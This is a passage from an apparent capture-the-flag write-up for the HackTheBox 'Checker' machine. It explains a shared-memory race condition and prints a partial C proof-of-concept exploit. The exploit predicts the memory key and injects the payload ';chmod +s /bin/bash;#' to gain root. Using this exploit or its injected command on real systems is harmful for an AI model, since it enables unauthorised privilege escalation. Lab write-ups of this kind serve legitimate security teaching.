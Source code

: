 Due to the lack of `synchronization` the `function` did not check if the `memory already existed`. This was particularly problematic because of the **Weak Memory Permissions** (`0666`) which meant that the segment was `readable` and `writeable` by `any user`.

And at last we assumed a possible **Format String Vulnerability** because if `param_1` came from `our input`, it should be sanitized to avoid `%` format string vulnerabilities.

- [https://dev.to/0xog_pg/using-shared-memory-in-linux-1p62](https://dev.to/0xog_pg/using-shared-memory-in-linux-1p62)
- [https://gist.github.com/mtak/4943802](https://gist.github.com/mtak/4943802)

## Privilege Escalation to root

### Winning the Race Condition

The idea to abuse the vulnerabilities above was to `run` the `same logic` to determine the `shared memory key` and instead of letting write `root` the `data` we tried to `preemptively inject` our own `payload`.

### Exploit Development

#### Proof of Concept (PoC)

We `reused` parts of the `function` in our `Proof of Concept (PoC)` exploit.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/serve]
└─$ cat exploit.c
#include <stdio.h>
#include <sys/shm.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <time.h>
#include <stdlib.h>

#define MEMSIZE 0x400
#define MEMPERM 0x3B6
int main(void) {
    int shm_id; // Return location for shared memory https://www.csl.mtu.edu/cs4411.ck/www/NOTES/process/shm/shmget.html
    key_t mem_key;
    char* shm_ptr;
    int random_number;
    const char *payload = "Leaked hash detected at Sun Feb 23 16:18:11 2025 > ';chmod +s /bin/bash;#";

    // Get current time in epoch and feed it to the srand function
    time_t cTime = time(NULL);
    srand((unsigned int)cTime);

    // The key divded by a big number, so that it fits in the limits of SHM calls?
    random_number = rand();
    mem_key = (random_number % 0xfffff);

    // Allocate shared memory
    shm_id = shmget(mem_key, MEMSIZE, IPC_CREAT | MEMPERM);
    if (shm_id == -1) {
    printf("[!] shmget error \n");
    exit(1);
    }

    // We grab a pointer to the memory location
    shm_ptr = (char *)shmat(shm_id, NULL, 0);
    if (shm_ptr == (char *)-1) {
    printf("[!] shmat error \n");
```